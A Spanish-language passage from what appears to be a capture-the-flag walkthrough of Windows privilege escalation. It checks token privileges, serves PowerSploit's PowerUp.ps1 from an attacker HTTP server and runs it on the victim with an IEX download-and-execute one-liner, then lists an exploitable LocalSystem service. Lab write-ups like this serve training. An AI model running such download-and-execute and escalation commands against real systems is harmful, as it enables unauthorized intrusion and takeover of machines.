 ```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Users\mssql-svc\Desktop>
```

Observamos que tenemos el privilegio **SeImpersonatePrivilege** habilitado, por lo que ya sabemos tirar **Juicy Potato**; pero para cambiar un poco, vamos a descargar la siguiente utilidad para ver otra forma de escalar privilegios:

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

```bash
❯ git clone https://github.com/PowerShellMafia/PowerSploit
Clonando en 'PowerSploit'...
remote: Enumerating objects: 3086, done.
remote: Total 3086 (delta 0), reused 0 (delta 0), pack-reused 3086
Recibiendo objetos: 100% (3086/3086), 10.47 MiB | 7.17 MiB/s, listo.
Resolviendo deltas: 100% (1809/1809), listo.
❯ cd PowerSploit/Privesc/
❯ ll
.rw-r--r-- root root  26 KB Fri Sep 17 16:05:06 2021  Get-System.ps1
.rw-r--r-- root root 586 KB Fri Sep 17 16:05:06 2021  PowerUp.ps1
.rw-r--r-- root root 1.6 KB Fri Sep 17 16:05:06 2021  Privesc.psd1
.rw-r--r-- root root  67 B  Fri Sep 17 16:05:06 2021  Privesc.psm1
.rw-r--r-- root root 4.5 KB Fri Sep 17 16:05:06 2021  README.md
```

Abrimos el archivo `PowerUp.ps1` y al final agregamos la siguiente linea:

```bash
Invoke-AllChecks
```

Nos compartimos un servidor HTTP con python y procedemos a descargar el archivo a la máquina víctima:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.125 - - [17/Sep/2021 16:11:59] "GET /PowerUp.ps1 HTTP/1.1" 200 -
```

```bash
IEX(New-Object Net.WebClient).downloadString("http://10.10.14.2/PowerUp.ps1")                                               [4/4]
                                
                                
Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 2512
ProcessId   : 1108    
Name        : 1108                                              
Check       : Process Token Privileges
                                                                
ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem                                     
```